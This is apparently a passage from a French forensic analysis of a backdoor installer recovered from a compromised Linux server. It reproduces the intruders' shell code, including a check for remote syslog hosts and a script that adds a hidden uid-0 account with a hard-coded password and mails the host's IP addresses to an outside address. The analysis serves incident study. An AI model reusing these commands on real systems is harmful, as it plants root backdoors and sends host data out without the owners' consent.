```bash
echo ""
echo "${WHI}============================================================================${RES}"
echo ""
sleep 2

echo "${DCYN}[${WHI}sh${DCYN}]# backdooring started on ${WHI}`hostname -f`${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# ${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# ${RES}"

SYSLOGCONF="/etc/syslog.conf"

echo -n "${DCYN}[${WHI}sh${DCYN}]# checking for remote logging...  ${RES}"

REMOTE=`grep -v "^#" "$SYSLOGCONF" | grep -v "^$" | grep "@" | cut -d '@' -f 2`

if [ ! -z "$REMOTE" ]; then
  echo "${DCYN}[${WHI}sh${DCYN}]# May Allah help us!${RES}"
  echo
  echo '${RED} REMOTE LOGGING DETECTED ${RES}'
  echo '${DCYN}[${WHI}sh${DCYN}]# I hope you can get to these other computer(s): ${RES}'
  echo
  for host in $REMOTE; do
    echo -n "            "
    echo $host
  done
  echo
  echo ' ${WHI} cuz this box is LOGGING to it... ${RES}'
  echo
  else
  echo " ${WHI} guess not.${RES}"
fi
```

Cette première partie constitue principalement la présentation du code. Si on cherche sur Internet une copie de ce script on remarque que le nom de l'auteur a été changé. Encore du plagiat.  

Deux variables intéressantes sont définies. La première est un mot de passe `dacialogan` qui s'accorde bien avec la supposée nationalité (roumaine) des intrus. La seconde variable intéressante est un numéro de port : 7000.  

Le programme désarchive ensuite des fichiers compressés aux noms explicites (`bin` pour les binaires, `conf` pour la configuration etc)  

Un appel discret à un script baptisé `a` est fait. Voici le contenu du script en question :

```bash
password="alex1985"                                                                                                                                                                                                                
pass=$(perl -e 'print crypt($ARGV[0], "wtf")' $password)                                                                                                                                                                           
/usr/sbin/useradd -o -u 0 -g 0 -d /tmp -s /bin/bash -p $pass -f -1 pupacila
/sbin/ifconfig | grep inet | mail -s "inca un root" norocos@canadianbiotech.com
exit
```
